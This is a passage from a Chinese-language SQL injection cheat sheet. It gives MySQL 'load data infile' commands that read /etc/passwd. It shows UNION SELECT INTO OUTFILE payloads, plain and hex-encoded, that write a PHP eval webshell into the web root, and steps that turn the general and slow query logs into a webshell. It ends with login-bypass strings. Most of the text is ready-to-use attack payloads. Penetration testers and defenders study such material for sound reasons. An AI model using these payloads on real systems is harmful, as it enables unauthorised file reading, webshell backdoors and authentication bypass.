 第二种读文件的方法：
```sql
load data infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n'; #读取服务端文件
```

第三种：
```sql
load data local infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n'; #读取客户端文件
```
[CSS-T | Mysql Client 任意文件读取攻击链拓展](https://zhuanlan.zhihu.com/p/102720502)
**文件写入**
> 具体权限要求：
> 1.secure_file_priv支持web目录文件导出
> 2.数据库用户file权限
> 3.获取物理途径

outfile和dumpfile：
```sql
union select 1,2,'<?php @eval($_POST[cmd]);?>' into outfile '/var/www/html/shell.php'#
union select 1,2,0x3c3f70687020406576616c28245f504f53545b636d645d293b3f3e into outfile '/var/www/html/shell.php' #
```

**利用log写入**
但是现在新版本的MySQL设置了导出文件的路径，我们基本上也没有权限去修改配置文件，更无法通过使用select into outfile来写入一句话。这时，我们可以通过修改MySQL的log文件来获取Webshell

同样的具体权限要求：
`数据库用户需具备super和file服务器权限、获取物理路径`

```sql
查看日志是否开启：
show global variables like '%general%'

一般这个日志记录是默认关闭的，需要我们手动开启
set global general_log = on;

修改日志路径(该路径需要设置到web目录下以便可访问)
set global general_log_file='/var/www/html/shell.php'

写入shell
select '<?php @eval($_POST[cmd]);?>'
```

慢查询日志
```sql
set global slow_query_log_file='/var/www/html/shell.php'
set global slow_query_log=1;
```

#### 万能密码
```sql
-1' or 1=1#
username = '=' & password = '='
username = admin & password = '-0-'
username = \ & password = or 1 #
```
